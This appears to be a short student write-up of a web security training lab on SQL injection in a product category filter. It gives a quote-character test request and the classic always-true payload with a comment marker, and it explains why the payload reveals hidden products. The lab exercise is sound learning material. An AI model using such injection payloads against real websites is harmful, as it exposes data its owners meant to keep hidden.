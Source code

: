 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Description
 This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased. 

### step 1 determine if the their is a vulnerability
GET /filter?category=Gifts' response 500 
#### analysis
The response shows that the page is vulnerable.

### step2 inject the payload
'+OR+1%3d1-- response = 200
#### analysis
Retrived all the products released and unreleased.
The payload 1=1 is always true
and the comments -- after the 1=1 is used to ignore the rest of the query

![image](https://user-images.githubusercontent.com/44478872/150627431-2b85f0f1-607b-4ab3-bfdc-c30a0de5ade5.png)

